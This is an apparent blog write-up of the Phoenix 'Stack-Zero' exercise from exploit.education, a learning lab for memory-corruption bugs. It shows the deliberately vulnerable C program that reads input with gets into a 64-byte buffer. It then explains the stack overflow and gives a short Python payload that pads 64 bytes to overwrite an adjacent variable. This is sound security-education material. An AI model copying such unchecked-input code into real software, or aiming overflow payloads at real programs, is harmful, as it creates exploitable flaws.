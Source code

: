 ```yaml
---
title: Stack-Zero
date: '2021-09-20'
draft: false
--- 
```


Stack-Zero consists of the following source code:

````
/*
 * phoenix/stack-zero, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable.
 *
 * Scientists have recently discovered a previously unknown species of
 * kangaroos, approximately in the middle of Western Australia. These
 * kangaroos are remarkable, as their insanely powerful hind legs give them
 * the ability to jump higher than a one story house (which is approximately
 * 15 feet, or 4.5 metres), simply because houses can't can't jump.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
````

Looking at the file, we can see that the code uses the vulnerable `gets` function. It copies all input from STDIN to the buffer without checking if the input's size first. If we provide a string that is larger than the size of the allocated buffer, we can overwrite what comes after it. Since `buffer` is of type `char[64]`, we can write 64 chars into stdin to 'pad' the input. After padding, we can then overwrite whatever comes after `buffer`, in this case `changeme`. Since writing and counting out 64 characters is a bit troublesome in `qemu`, we write a quick python file that does what we want.

``` 
# stack-zero.py

padding = '0' * 64;
changeme = '\x1';

print(padding + changeme)
```

Now, since `stack-zero.c` wants its input via stdin and not as a command line argument, we pipe the input into it: `python3 stack-zero.py | ./stack-zero`. Doing this prints the message

```
> Well done, the 'changeme' variable has been changed!
```

meaning that we solved our first task!

